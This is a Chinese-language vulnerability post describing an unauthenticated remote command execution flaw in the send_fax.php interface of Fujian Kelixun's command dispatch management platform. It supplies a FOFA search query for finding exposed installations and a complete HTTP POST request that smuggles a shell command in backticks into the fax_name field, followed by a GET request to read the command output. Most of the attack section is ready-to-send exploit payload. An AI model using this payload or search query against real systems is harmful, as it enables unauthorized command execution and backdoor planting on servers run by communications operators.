 #  福建科立讯指挥调度管理平台send_fax远程命令执行漏洞   
原创 SXdysq  南街老友   2025-04-28 12:14  
  
   
  
> 字数 319，阅读大约需 2 分钟  
  
## 产品介绍  
  
福建科立讯通信指挥调度管理平台是一个专门针对通信行业的管理平台。该产品旨在提供高效的指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务，并即时获取现场反馈和报告  
## 漏洞概述  
  
福建科立讯通信有限公司指挥调度管理平台send_fax.php接口处存在远程命令执行漏洞，未经身份认证的攻击者可通给该漏洞远程执行命令，写入后门文件可导致服务器失陷。  
## FOFA  
```
body="指挥调度管理平台"product="指挥调度管理平台"
```  
## 漏洞复现  
```
POST /api/client/fax/send_fax.php HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0Content-Length: 29Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeContent-Type: application/x-www-form-urlencodedUpgrade-Insecure-Requests: 1fax_name=`id > PGSwhPeZ&LRt1Je.txt`.pdf
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtDOXkGh1zBshR9iakpfpF2UKAlemj3XTq33dXlrsA7ic5N1zt528EUvuYZMhib9W60KWfPGicYLzw1ffQ/640?from=appmsg "null")  
  
```
GET /api/client/fax/PGSwhPeZ&LRt1Je.txt HTTP/1.1Host: User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2Upgrade-Insecure-Requests: 1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtDOXkGh1zBshR9iakpfpF2UKpFhYCxSKhrSAJGribAJfZ0zyu2ia7M32P62r4MLWUUHfIIc9fldvebfg/640?from=appmsg "null")  
  
  
  
